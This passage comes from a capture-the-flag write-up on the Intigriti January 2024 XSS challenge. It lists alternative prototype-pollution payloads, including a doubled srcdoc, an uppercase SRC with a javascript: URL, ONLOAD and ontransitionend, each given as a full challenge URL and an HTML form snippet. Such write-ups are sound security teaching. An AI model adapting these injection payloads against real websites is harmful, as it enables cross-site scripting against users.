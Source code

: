The order is important here. `srcdoc` must be specified in the URL _before_ the `owner` and `homepage`. A community member suggested the reasoning behind this - since `owner` and `homepage` are strings, they would fail somewhere in jQuery, halting execution. So long as `srcdoc` is processed first, it doesn't matter if the remaining properties fail (we only need them at the beginning of our attack to reach the vulnerable code).

A [popular alternative](<https://challenge-0124.intigriti.io/challenge?name=%3Cform+id=%22search%22%3E%3Cinput+name=%22__proto__[srcdoc]%22+value=%22fake%22+/%3E%3Cinput+name=%22__proto__[srcdoc]%22+value=%22%3Cscript%3Ealert(document.domain)%3C/script%3E%22+/%3E%3Cinput+name=%22__proto__[owner]%22+value=%22cat%22+/%3E%3Cinput+name=%22__proto__[homepage]%22+value=%22https://crypto.cat%22+/%3E%3C/form%3E&search=test>) to the array payload was to pollute the `srcdoc` twice. The underlying logic is the same, i.e. declaring `srcdoc` twice creates a `srcdoc[]` array containing both values.

#### src

Earlier, we said it would be great if we could just set the iframe `src` to `javascript:alert(document.domain)`. Well, we can't because the existing keys already define it. However, since [HTML attributes are case-insensitive and JS are not](https://jorianwoltjer.com/blog/h/hacking/intigriti-xss-challenge/intigriti-january-xss-challenge-0124#finding-gadgets-jquery), we can use our trusty [uppercase](<https://challenge-0124.intigriti.io/challenge?name=%3Cform+id=%22search%22%3E%3Cinput+name=%22__proto__[SRC]%22+value=%22javascript:alert(document.domain)%22+/%3E%3Cinput+name=%22__proto__[owner]%22+value=%22cat%22+/%3E%3Cinput+name=%22__proto__[homepage]%22+value=%22https://crypto.cat%22+/%3E%3C/form%3E&search=test>) trick to ensure the existing key won't overwrite our injected prototype.

```html
<form id="search">
    <input name="__proto__[SRC]" value="javascript:alert(document.domain)" />
    <input name="__proto__[owner]" value="cat" />
    <input name="__proto__[homepage]" value="https://crypto.cat" />
</form>
```

#### onload

A fairly straightforward alternative - you can pollute `onload` to set some JS to execute when the page loads! You'll still need to meet the previous conditions (pollute `owner` + `homepage` and use uppercase/array), [e.g.](<https://challenge-0124.intigriti.io/challenge?name=%3Cform+id=%22search%22%3E%3Cinput+name=%22__proto__[ONLOAD]%22+value=%22alert(document.domain)%22+/%3E%3Cinput+name=%22__proto__.owner%22+value=%22cat%22+/%3E%3Cinput+name=%22__proto__.homepage%22+value=%22https://crypto.cat%22+/%3E%3C/form%3E&search=test>)

```html
<form id="search">
    <input name="__proto__[ONLOAD]" value="alert(document.domain)" />
    <input name="__proto__[owner]" value="cat" />
    <input name="__proto__[homepage]" value="https://crypto.cat" />
</form>
```

#### ontransitionend

One [payload](<https://challenge-0124.intigriti.io/challenge?name=%3Csvg%20id=%22homepage%22%20style=%22transition:%20outline%201s%22%20tabindex=%221%22%3E%3C/svg%3E%3Cform%20id=%22search%22%3E%3Cinput%20name=%22__proto__.owner%22%20value=%22cat%22%20/%3E%3Cinput%20name=%22__proto__.homepage%22%20value=%22https://crypto.cat%22%3E%3Cinput%20name=%22__proto__.ontransitionend%22%20value=%22alert(document.domain)%22%20/%3E%3C/form%3E&search=test#homepage>) created and `<svg>` element with a transition style, then polluted `ontransitionend` with our XSS payload.
